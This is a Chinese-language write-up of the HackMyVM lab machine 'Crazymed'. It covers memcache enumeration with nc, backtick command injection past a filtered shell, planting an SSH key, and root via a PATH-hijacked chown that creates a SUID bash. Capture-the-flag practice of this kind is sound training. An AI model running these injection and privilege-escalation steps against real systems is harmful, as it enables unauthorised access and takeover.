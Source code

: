 # Crazymed

2025.02.14 https://hackmyvm.eu/machines/machine.php?vm=Crazymed

[video](https://www.bilibili.com/video/BV1evKAeMExS/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4444/tcp  open  krb524
11211/tcp open  memcache
```

先看看 80 web 服务有什么，底部显示了个 Designed by BootstrapMade 像是个 CMS 的模板，gobuster 扫描后得到 http://192.168.5.40/Readme.txt 但是没什么用，看样子像是个静态网站，在看其他的端口吧。

nc 连接 4444 端口，发现要输入密码，但是目前不知道密码。在链接 11211 的 memcache 看看能不能拿到缓存信息：

```
echo "stats items" | nc -vn -w 1 192.168.5.40 11211          # 发现 items:1
echo "stats cachedump 1 0" | nc -vn -w 1 192.168.5.40 11211  # 得到了缓存的item
echo "get log" | nc -vn -w 1 192.168.5.40 11211              # 这个item中得到了一个提示 password: cr4zyM3d
```

然后利用得到的密码 cr4zyM3d 在 4444 的端口上输入，然后输入 ? 号能看到可以执行的命令，这时输入 id 发现当前用户是 brad，尝试执行其他的命令进行绕过，并且得到了 user flag：

```
System command: echo `ls`
user.txt
System command: echo `cat user.txt`
f70a9801673220fb56f42cf9d5ddc28b
```

将生成的 id_rsa.pub 公钥写入到目标机器上：

```
ssh-keygen -t rsa -f ./id_rsa  # kali上执行

echo `echo 'ssh-rsa ........1MdEG2btvfgk= kali@kali'>>./.ssh/authorized_keys`  # 在目标机器上执行，将上面生成的id_rsa.pub写入到authorized_keys中
```

在 kali 上使用私钥登陆：

```
ssh -i id_rsa brad@192.168.5.40
```

看看那个 4444 端口对应的脚本是怎么限制的，可以看到必须是以 id who echo clear 开头，并且没有限制反单引号，所以存在绕过：

```shell
items=(id who echo clear)
signs=(";" "&" "&&" "|" "$")
export TERM=xterm

printf 'Type "?" for help.\n\n'

while :
do
printf 'System command: '
read -r cmd

for y in "${signs[@]}"; do
[[ $cmd =~ "$y" ]] && echo -e "${BOLDRED}Attack detected.${RESET}" && continue 2
done

for x in "${items[@]}"; do
[[ $cmd =~ "$x" ]] && bash -c "$cmd"
done
```

经过枚举，发现 /usr/local/bin 这个目录任意用户可以写入，并且这个目录是在系统环境变量 PATH 最开始位置。上传 pspy 发现后台有任务执行，/bin/bash /opt/check_VM

```
brad@crazymed:~$ cat /opt/check_VM
#! /bin/bash

#users flags
flags=(/root/root.txt /home/brad/user.txt)
for x in "${flags[@]}"
do
if [[ ! -f $x ]] ; then
echo "$x doesn't exist"
mcookie > $x
chmod 700 $x
fi
done

chown -R www-data:www-data /var/www/html

#bash_history => /dev/null
home=$(cat /etc/passwd |grep bash |awk -F: '{print $6}')

for x in $home
do
ln -sf /dev/null $x/.bash_history ; eccho "All's fine !"
done


find /var/log -name "*.log*" -exec rm -f {} +
```

上面发现 chown 这个命令没有写完全路径，可以利用发现的 /usr/local/bin 目录可写，实现命令替换：

```
brad@crazymed:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
brad@crazymed:~$ ls -al /usr/local/bin
total 8
drwxr-xrwx  2 root root 4096 Oct 31  2022 .
drwxr-xr-x 10 root root 4096 Oct 26  2022 ..
brad@crazymed:~$ echo 'cp /bin/bash /tmp/bash; chmod +xs /tmp/bash' > /usr/local/bin/chown; chmod +x /usr/local/bin/chown
```

等带 1 分钟，这时会出现 suid 程序/tmp/bash 直接提权到 root：

```
brad@crazymed:~$ /tmp/bash -p
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
b9b38d9533ca00072eff46338bf21b43
```
